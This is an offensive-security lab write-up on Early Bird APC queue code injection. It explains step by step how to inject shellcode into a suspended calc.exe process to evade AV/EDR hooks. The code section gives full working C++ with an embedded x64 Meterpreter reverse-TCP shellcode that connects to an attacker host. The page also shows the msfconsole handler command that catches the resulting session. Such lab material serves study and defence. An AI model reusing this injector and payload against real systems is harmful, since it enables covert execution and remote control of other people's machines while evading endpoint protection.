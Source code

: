 # Early Bird APC Queue Code Injection

This short lab is related to a different version of the APC queue code injection technique I tinkered with here:

{% page-ref page="apc-queue-code-injection.md" %}

## Overview

High level overview of the technique:

1. A malicious program creates a new legitimate process \(say calc.exe\) in a suspended state
2. Memory for shellcode is allocated in the newly created process's memory space
3. APC routine pointing to the shellcode is declared
4. Shellcode is written to the previously allocated memory
5. APC is queued to the main thread \(currently in `suspended` state\)
6. Thread is resumed and the shellcode is executed
7. Meterpreter session established

One of the main advantages of this technique over the regular APC Queue code injection, is that in Early Bird technique, the malicious behaviour takes place early on in the process initialization phase, increasing the likelihood of going under the radar of some AV/EDR hooks.

## Execution

Below image \(top\) shows that I've hit the breakpoint on line 19, meaning that a new `calc.exe` process has been created in a `suspended` state \(defined in line 15\).

If we check the newly started `calc.exe` in the Process Hacker, we can confirm that the main thread is indeed `suspended` \(bottom\):

![](../../.gitbook/assets/annotation-2019-05-27-140139.png)

After line 19 is executed, we get the address of the newly allocated memory. This is where the shellcode will be written to:

```cpp
LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

![](../../.gitbook/assets/annotation-2019-05-27-140326.png)

Below shows how the shellcode gets written to memory address `0000023b82480000` of the `calc.exe` with:

```cpp
WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
```

![](../../.gitbook/assets/writing-shellcode.gif)

Before continuing, let's fire up a multi handler on the attacking system so we can catch the meterpreter session:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Back to executing the malicious code - once the shellcode is written into the process memory, the APC is queued to the thread which is then immediately resumed. Resuming the thread in turn executes the shellcode which results in a meterpreter session:

![](../../.gitbook/assets/apc-meterpreter.gif)

## Code

{% code-tabs %}
{% code-tabs-item title="earlybird-apc.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	SIZE_T shellSize = sizeof(buf);
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = {0};

	CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE victimProcess = pi.hProcess;
	HANDLE threadHandle = pi.hThread;
	
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	
	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
	QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);	
	ResumeThread(threadHandle);

	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## References

{% embed url="https://www.cyberbit.com/blog/endpoint-security/new-early-bird-code-injection-technique-discovered/" %}

{% embed url="https://www.youtube.com/watch?time\_continue=29&v=\_sI76NLPMjI" %}

